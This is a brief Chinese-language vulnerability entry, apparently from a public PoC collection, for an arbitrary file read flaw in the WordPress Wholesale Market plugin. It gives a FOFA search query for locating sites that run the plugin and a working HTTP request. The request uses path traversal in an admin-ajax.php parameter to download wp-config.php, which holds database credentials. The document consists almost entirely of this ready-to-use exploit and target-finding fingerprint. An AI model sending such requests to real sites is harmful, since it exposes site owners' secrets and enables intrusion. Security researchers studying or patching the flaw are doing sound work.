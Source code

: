 ## WordPress_Wholesale_Market插件存在任意文件读取漏洞

## fofa
```
body="wp-content/plugins/wholesale-market"
```

## poc
```
/wp-admin/admin-ajax.php?action=ced_cwsm_csv_import_export_module_download_error_log&tab=ced_cwsm_plugin&section=ced_cwsm_csv_import_export_module&ced_cwsm_log_download=../../../wp-config.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0
Connection: close
Accept-Encoding: gzip
```
